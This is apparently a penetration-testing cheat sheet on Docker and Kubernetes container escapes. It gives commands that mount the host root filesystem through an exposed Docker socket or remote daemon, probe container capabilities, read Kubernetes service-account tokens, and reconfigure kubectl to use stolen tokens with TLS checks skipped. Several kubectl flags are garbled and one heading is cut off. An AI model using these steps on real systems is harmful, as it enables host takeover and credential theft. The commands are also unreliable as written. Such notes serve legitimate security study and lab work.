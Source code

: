 # Docker

## Are we in a container?
.dockerenv # file in /

cat /proc/self/cgroup

## Login with access token
docker login -e <email> -u oauth2accesstoken -p "<access token>" https://gcr.io
docker pull gcr.io/bsides-ctf-2017/zumbo

## Breakout
try to install the Docker client inside the container (Docker socket needs to be mounted inside!)
then you can talk to the Docker daemon on the host vm and inspect all other containers with root privileges

If the docker jail user is also in the docker group just do:
docker run -v /:/tmp -i -t bash bash

## List docker images remotely
docker --host tcp://192.168.1.101 images
docker --host tcp://192.168.1.101 ps

## create a new docker for wordpress, but then chroot the root-filesystem to /pwn folder
docker --host tcp://192.168.1.101 run -v /:/pwn -i -t wordpress /bin/bash

## contained.af - more Docker Breakouts
Do you have access to CAP_NET_RAW?
- CAP_NET_RAW allows you to use RAW and PACKET sockets and bind to any address for transparent proxying.
ping 1.1.1.1
wget eff.org
man capabilities

Is the socket syscall blocked?
- The socket syscall socket() creates an endpoint for communication and returns a file descriptor that refers to that endpoint.
nc -lvup 12345
nc -lvp 12345

Is the nanosleep syscall blocked?
- The nanosleep syscall suspends the execution of the calling thread until either at least the time specified in *req has elapsed, or the delivery of a signal that triggers the invocation of a handler in the calling thread or that terminates the process.
sleep 10

Is the container running with an apparmor profile?
- AppArmor is a Linux security module that allows for setting permissions and auditing processes.
cat /proc/self/attr/current

Do you have access to CAP_SYS_ADMIN?
- CAP_SYS_ADMIN syscall allows you to do all kinds of things. Override resource limits! Call perf_event_open! See the capabilities man page for the full list
Hint: Can you create a swap and mount it? Try it! No
Not quite... Try mounting a tmpfs with mount.
mount


Do you have access to CAP_SYS_TIME?
- CAP_SYS_TIME is the capability that allows a user to set the system clock or real-time (hardware) clock
Hint: How can you alter system date? (date --help) No
date -s '00:00:01'
man capabilities

Do you have access to CAP_SYSLOG?
- CAP_SYSLOG is the capability that allows a user to execute syslog privileged operations
Hint: What's a syslog capability? No
dmesg -c
man capabilities

Do you have access to CAP_SYS_MODULE?
- CAP_SYS_MODULE is the capability that allows a user to load and unload kernel modules
Hint: What kernel modules are loaded? How can you remove one? No
rmmod veth
man capabilities

## Breakout through Mounting
it is possible to mount volumes that contain files with capability bits set into containers

## list all capabilities
capsh --print
pscap
captest
filecap -a 2>&1 | grep -v "Unable to get capabilities"

## Referenc
./docker-containers-paper.pdf
https://www.nccgroup.trust/globalassets/our-research/us/whitepapers/2016/april/ncc_group_understanding_hardening_linux_containers-1-1.pdf

## Running Docker Bench for Security
https://github.com/docker/docker-bench-security

## Docker CVEs
docker version
? < 0.11.1 --> Shocker Breakout PoC

## Kubernetes makes cluster compromise trivial as it will use the serviceaccount token without additional prompting
cat /var/run/secrets/kubernetes.io/serviceaccount
kubectl exec a_pod - cat /flag .
Details: https://gist.github.com/tmc/8cd2364f7b6702ac6318c64a3d17e32d
kubectl config set-cluster pwned --erver=https://${public_ip} -insecure-skip-tls-verify
kubectl config set-credentials pwn -token=${serviceacount_token}
kubectl config set-context pwned --luster=pwned --ser=pwn
kubectl config use-context pwned


tags: #docker #breakout #escape 
